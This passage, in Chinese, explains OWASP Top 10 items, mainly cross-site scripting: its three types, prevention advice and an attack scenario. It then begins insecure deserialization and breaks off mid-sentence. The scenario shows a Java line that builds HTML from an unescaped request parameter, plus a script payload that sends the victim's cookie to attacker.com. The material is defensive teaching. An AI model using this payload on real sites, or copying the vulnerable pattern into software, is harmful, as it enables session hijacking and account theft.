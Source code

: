 ```

默认配置或从别处拷贝来的老配置项激活了一个老的、含漏洞的协议或安全选项。这些是可被攻击者或恶意软件利用的。

### 2.9 A7-跨站脚本（XSS）

XSS 是指恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。XSS 的分类：存储式跨站脚本攻击、反射跨站脚本攻击、基于DOM的XSS.

XSS是OWASP Top10中第二普遍的安全问题，存在于近三分之二的应用中。自动化工具能自动发现一些XSS问题，特别是在一些成熟的技术中，如：PHP、J2EE或JSP、ASP.NET。

#### 2.9.1 我的应用中存在跨站脚本（XSS）脆弱么?

存在三种XSS类型：
##### 反射式XSS：

你的应用中包含未验证的或未编码的用户输入，并作为HTML或者其他未启用CSP（Content Security Policy）头的一部分输出。成功的攻击将在受害者的浏览器上执行任意HTML或JS代码。

一般而言，用户需要点击链接或与其他攻击者控制页面做交互。

##### 存储式XSS：

你的应用或者API将未净化的用户输入存储下来了，并在后期在其他用户或者管理员的页面展示出来。

存储型XSS一般被认为是高危或严重的风险。

##### 基于DOM的XSS：

会动态的将攻击者可控的内容加入页面的JavaScript框架、单页面程序或API存在这种类型的漏洞。理想的来说，你应该避免将攻击者可控的数据发送给不安全的JavaScript API。

典型的XSS攻击可导致:盗取session、账户、绕过MFA、DIV替换、对用户浏览器的攻击（例如：恶意软件下载、键盘记录）以及其他用户侧的攻击。
 
#### 2.9.2 如何防止？

防止XSS需要将不可信数据与动态的浏览器内容区分开。

- 从设计源头考虑解决XSS问题，例如使用能够自动编码的框架，如：Ruby 3.0或 React JS。
- 为了避免服务器XSS，最好的办法是根据数据将要置于的HTML上下文（包括：主体、属性、JavaScript、CSS或URL）对所有的不可信数据进行恰当的排除 （escape） 。更多关于数据转义
技术的信息见：《OWASP XSS Prevention Cheat Sheet》 。
- 为了避免客户端XSS，最好的选择是避免传递不受信任的数据到JavaScript和可以生成活动内容的其他浏览器A PI。如果这种情况不能避免，可以采用《OWASP DOM based XSS Prevention
Cheat Sheet》描述的类似上下文敏感的转义技术应用于浏览器API。https://github.com/OWASP/CheatSheetSeries
- 使用内容安全策略（ CSP）是对抗XSS的深度防御策略。https://www.w3.org/TR/CSP2/ 和 https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

#### 2.9.3 攻击案例场景

应用程序在下面HTML代码段的构造中使用未经验证或未排除的不可信的数据：
```（ String ） page += "<input name='creditcard' type=' TEXT‘value='" + request.getParameter（"CC"） + "'>";```

攻击者在浏览器中修改“CC” 参数为如下值：

```'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.```

这个攻击导致受害者的会话ID被发送到攻击者的网站，使得攻击者能够劫持用户当前会话。

请注意攻击者同样能使用跨站脚本攻破应用程序可能使用的任何跨站请求伪造（CSRF）防御机制。CSRF的详细情况见2013年版中的A8项

### 2.10 A8-不安全的反序列化

不安全的反序列化会导致远程代码执行。即使反序列化缺陷不会导致远程代码执行，攻击者也可以利用它们来执行攻击，包括：重播攻击、注入攻击和特权升级攻击。

对反序列化的利用是有点困难的，因为在不更改或调整底层代码的情况下，货架漏洞（Shelf Exploit）很少起作用。但反序列化缺陷的影响不能被低估。它们可能导致远程代码执行攻击，这是
```